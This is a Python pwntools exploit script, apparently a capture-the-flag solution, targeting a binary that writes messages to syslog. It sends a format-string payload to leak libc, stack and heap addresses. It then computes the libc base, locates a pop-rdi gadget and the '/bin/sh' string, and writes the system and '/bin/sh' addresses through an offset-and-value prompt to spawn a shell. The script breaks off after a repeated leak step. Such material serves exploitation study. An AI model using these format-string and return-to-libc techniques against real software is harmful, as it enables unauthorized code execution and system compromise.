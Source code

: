 ```py


def main():
    r = conn()

    r.sendlineafter(b'Enter your choice: ', b'1')

    # gdb.attach(r, gdbscript="""
    # break *0x0000555555400E4A
    # continue"""
    # )

    r.sendlineafter(b'Size:', b'2')
    r.sendlineafter(b'Enter the message to write to syslog: ', b'%p '* 10 + b' %75$p %80$p')

    d = b''
    while b'0x' not in d:
      d = r.recvline()

    d = d.split(b' ')

    libc_leak = int(d[-1],16)
    stack_leak = int(d[-2], 16)
    heap_leak = int(d[-6], 16)

    libc.address = libc_leak - libc.sym.__libc_start_main - 0xe7
    log.info(f'Libc base: {hex(libc.address)}')
    log.info(f'Stack leak: {hex(stack_leak)}')
    log.info(f'Heap leak: {hex(heap_leak)}')

    stack_target = stack_leak - 24

    to_add = (stack_target - heap_leak) // 8

    rop = ROP(libc)
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

    bin_sh = next(libc.search(b'/bin/sh\x00'))

    r.sendlineafter(b'Offset & Value', f'{hex((stack_leak - heap_leak) // 8)} {hex(libc.sym["system"])}'.encode())
    r.sendlineafter(b'Offset & Value', f'{hex((stack_leak - heap_leak - 8) // 8)} {hex(bin_sh)}'.encode())

    ret = rop.find_gadget(['ret'])[0]

    r.sendlineafter(b'Enter your choice: ', b'1')

    # gdb.attach(r, gdbscript="""
    # break *0x0000555555400E4A
    # continue"""
    # )

    r.sendlineafter(b'Size:', b'2')
    r.sendlineafter(b'Enter the message to write to syslog: ', b'%p '* 10 + b' %75$p %80$p')

    d = b''
    while b'0x' not in d:
      d = r.recvline()

    d = b''
    while b'0x' not in d:
      d = r.recvline()
```